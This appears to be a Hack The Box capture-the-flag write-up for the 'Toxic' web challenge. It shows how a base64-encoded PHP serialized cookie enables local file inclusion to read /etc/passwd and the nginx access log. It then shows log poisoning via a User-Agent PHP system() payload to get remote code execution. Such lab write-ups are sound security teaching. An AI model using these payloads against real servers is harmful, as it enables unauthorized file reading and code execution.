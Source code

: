 ```yaml
---
title: "Toxic"
date: 2023-02-17
link: https://app.hackthebox.com/challenges/224
tags:
- writeups
---
```


**Description**: Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialization.

## Examining The Source
For this challenge we're given the source code. There are 2 files which seem of interest: `index.php` and `PageModel.php`

![[write-ups/images/Pasted image 20230217163856.png]]

We set a cookie called `PHPSESSID` with [setcookie](https://www.php.net/manual/en/function.setcookie.php) in case it didn't exist and the cookie's value is being set to the base64 encoding of a serialized object called `$page` of type `PageModel` which has a property of `$file` set to `/www/index.html`. Also, notice that [include](https://www.php.net/manual/en/function.include.php) on the `$file` is called upon the object's [destruction](https://www.phptutorial.net/php-oop/php-destructor/), which means that the content of `index.html` is being displayed in the browser & any PHP blocks contained in that file will be executed.

If the cookie already exists, its value is decoded from base64 & [unserialized](https://www.php.net/manual/en/function.unserialize.php) back to a PHP object value.

## [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) Exploitation
There are multiple red flags in this source code, but the most obvious one is the fact that the file being displayed *(`index.html`)* is completely in the control of the user, since `PHPSESSID`'s value can be modified by the user. 

Now let's see how can we exploit this by firstly having a look @ our cookie:
```bash
┌─[evilBit@parrot]─[~/Desktop]
└──╼ echo "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9" | base64 -d
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}
```

The result is a serialized object of type `Pagemodel` with the property of `file` set when the cookie was created. As a starting point we can simply modify the serialized object path, base64 encode it & send the new `PHPSESSID` value to read any arbitrary file on the server:
```bash

┌─[evilBit@parrot]─[~/Desktop]
└──╼ echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}' | base64
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30lCg==
┌─[evilBit@parrot]─[~/Desktop]
└──╼  curl 'http://localhost:1337/' -H "Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30lCg=="
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www:x:1000:1000:1000:/home/www:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
```

Keep in mind that our objective is to retrieve the `flag` file. However, if we try changing the path to `/flag` it will not work. Why is that? Well, apparently there's a catch: a bash script `entrypoint.sh` is executed when the web app is built, making the flag filename random:
```bash
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

exec "$@"
```

## LFI to RCE
At this point we need to find a way to execute code on the remote system, rather than brute-forcing our way to it. In order to do that, let's take a step back & think about what we control: that is arbitrarily reading & executing any file. 

The challenge name *(Toxic)* hints us to what we should do next: [log poisoning](https://casimsec.com/2021/10/30/log-poisoning-and-lfi/). Simply put, log poisoning is a technique used to execute code injected into a log file. But how are we going to inject code, since LFI only allows us to read/execute a file on the server, not write one? Well, we can write to a server log file indirectly by finding if any other input is reflected.

Firstly, let's detect which web server is running to find our log file & access it:

![[write-ups/images/Pasted image 20230217172241.png]]

Ok, that was easier than anticipated wince it's right there in the response headers. Looking online we find that nginx's access log is located in: `/var/log/nginx/access.log`, so let's try displaying it:

```bash
┌─[evilBit@parrot]─[~/Desktop]
└──╼ pay="$(echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64 | tr -d '\n')" && curl 'http://localhost:1337/' -H "Cookie: PHPSESSID=$pay"

172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36"
172.17.0.1 - 200 "GET /static/images/dart-frog.jpg HTTP/1.1" "http://localhost:1337/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36"
172.17.0.1 - 200 "GET /static/images/ryan1.png HTTP/1.1" "http://localhost:1337/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36"
...
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36"
...
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "curl/7.86.0"
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "curl/7.86.0"
```


Note, the last 3 `GET` requests are reflecting our `User-Agent` it seems. This is our way to inject PHP code into the `acess.log` file & have that code executed whenever the server includes that log file *(when `PageModel` object destructs)* & sends it back to our browser:

```bash
┌─[evilBit@parrot]─[~/Desktop]
└──╼ pay="$(echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}' | base64 | tr -d '\n')" && curl 'http://localhost:1337/' -H "Cookie: PHPSESSID=$pay" -H "User-Agent: <?php system('ls /'); ?>"

172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 
...
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "curl/7.86.0"

entrypoint.sh
etc
flag_6tMGz
home
...
www
```

And there we have our flag file 🥳. Now all that's left to do is to retrieve it:

![[write-ups/images/Pasted image 20230217173942.png]]

## Refs
- [Log Poisoning and LFI](https://casimsec.com/2021/10/30/log-poisoning-and-lfi/)

## See Also
- [[write-ups/HTB]]
